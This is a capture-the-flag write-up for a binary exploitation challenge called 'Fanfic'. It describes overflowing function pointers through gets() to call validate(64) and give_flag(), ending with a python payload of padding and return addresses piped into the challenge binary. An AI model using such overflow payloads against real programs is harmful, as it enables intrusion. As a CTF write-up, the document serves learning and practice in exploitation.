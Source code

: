 # Fanfic

Surprisingly, this was very similar to a previous problem, [Heaps of Knowledge](https://github.com/VoidMercy/EasyCTF-Writeups-2017/tree/master/binexploit/Heaps-of-Knowledge), but with slightly altered parameters.

Using the above as a base, I constructed an attack like this:

1. First, I noticed that validate(int ans) required an argument of 0x40. This could be achieved by overflowing the address of *print_ch, especially because it took an int as an argument.

2. Right after that, overflow the address of the next chapter's *print_ch to give_flag().

3. When we attempt to publish our fanfic, these methods will run.

This would all be done using the gets() present in the chapter edit tool, and would require 65 (64 is 0x40) chapters to accomplish. The 64th chapter would run validate(64), and the 65th chapter would give us the flag. 

I generated this code through python and implemented it. Essentially, it creates a title, then repeatedly creates 64 chapters. Finally, it overflows with a length of 258 'A's + our desired location, and finally runs the code.

```
python -c "print Title\n1\n1\n1\n1\n1\n2\n1\n1\n1\n3\n1\n1\n1\n4\n1\n1\n1\n5\n1\n1\n1\n6\n1\n1\n1\n7\n1\n1\n1\n8\n1\n1\n1\n9\n1\n1\n1\n10\n1\n1\n1\n11\n1\n1\n1\n12\n1\n1\n1\n13\n1\n1\n1\n14\n1\n1\n1\n15\n1\n1\n1\n16\n1\n1\n1\n17\n1\n1\n1\n18\n1\n1\n1\n19\n1\n1\n1\n20\n1\n1\n1\n21\n1\n1\n1\n22\n1\n1\n1\n23\n1\n1\n1\n24\n1\n1\n1\n25\n1\n1\n1\n26\n1\n1\n1\n27\n1\n1\n1\n28\n1\n1\n1\n29\n1\n1\n1\n30\n1\n1\n1\n31\n1\n1\n1\n32\n1\n1\n1\n33\n1\n1\n1\n34\n1\n1\n1\n35\n1\n1\n1\n36\n1\n1\n1\n37\n1\n1\n1\n38\n1\n1\n1\n39\n1\n1\n1\n40\n1\n1\n1\n41\n1\n1\n1\n42\n1\n1\n1\n43\n1\n1\n1\n44\n1\n1\n1\n45\n1\n1\n1\n46\n1\n1\n1\n47\n1\n1\n1\n48\n1\n1\n1\n49\n1\n1\n1\n50\n1\n1\n1\n51\n1\n1\n1\n52\n1\n1\n1\n53\n1\n1\n1\n54\n1\n1\n1\n55\n1\n1\n1\n56\n1\n1\n1\n57\n1\n1\n1\n58\n1\n1\n1\n59\n1\n1\n1\n60\n1\n1\n1\n61\n1\n1\n1\n62\n1\n1\n1\n63\n1\n1\n1\n64\n1\n1\n1\n65\n1\n1\n' + '1\n64\n' + 'A'*258 + '\xb4\x87\x04\x08\n' + '1\n65\n' + 'A'*258 + '\xef\x87\x04\x08\n' + '3\n'" | ./fanfic

